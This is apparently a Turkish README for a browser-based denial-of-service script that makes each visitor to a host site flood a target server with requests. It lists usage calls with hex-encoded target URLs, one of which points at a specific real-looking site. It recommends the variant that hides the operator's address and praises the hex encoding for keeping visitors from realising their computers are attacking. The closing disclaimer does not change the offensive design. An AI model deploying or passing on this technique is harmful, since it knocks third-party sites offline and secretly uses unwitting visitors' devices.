   Başkalarının sitesinde kullanmayınız kendi sitenize saldırıp test edip önlemler üretmeyi deneyiniz.<br><br>
  
  Not: Bu scripti eklediğiniz size ait web sitesine giren her kullanıcı hedef siteye saldırır, yani sitenizde şuanda 100 online olduğunu var sayarsak, karşıdaki sunucu 32gb lık bir ram ile muhtemelen cevap veremeyecek hale gelecek ve sitesi çalışmayacaktır. <br><br>
  Tercihiniz aşağıdaki 3. yöntem önerilir. !!! <br>
  
  şimdilik kullanım dışı, image file atak <br><br>
  ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','base64'); // base64 file<br><br>
 ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','file'); // direk file<br><br>
  // note: istekler karşılıksız olsada atak yapmaktadır.!!!<br>
  // şimdilik kullanım dışı, image file atak.<br><br>

  // # Kullanıma uygun örnekler<br><br>

   1-<br>
  //tek('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür.<br><br>


  2-<br>
  //cok('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür. tek() fonksiyonundan farklı karşı tarafa çok daha yüksek byte ile saldırır, fakat bu yavaşlık yaratabiir. tek() kullanımı önerilen örnektir.<br><br><br><br>

  3- önerilen yöntem. karşı tarafta Saldıran sadece ziyaretçi ip adresi olarak görünür.<br><br>
  // örnek: site adresi = https://www.yoursitename.com/index.php?q= <br><br>
  // bu adresi str to hex yapınız 68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d
  istek_img('68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d','1');<br><br>
  // bu saldırı yönteminde site adresiniz asla gözükmez. artı olarka strtohex kullandığınız için ziyaretçi sayfa kaynağını görüntülesede kendi bilgisayarının saldırı amaçlı kullanıldığını fark edemez.<br><br>

  // # Kullanıma uygun örnekler
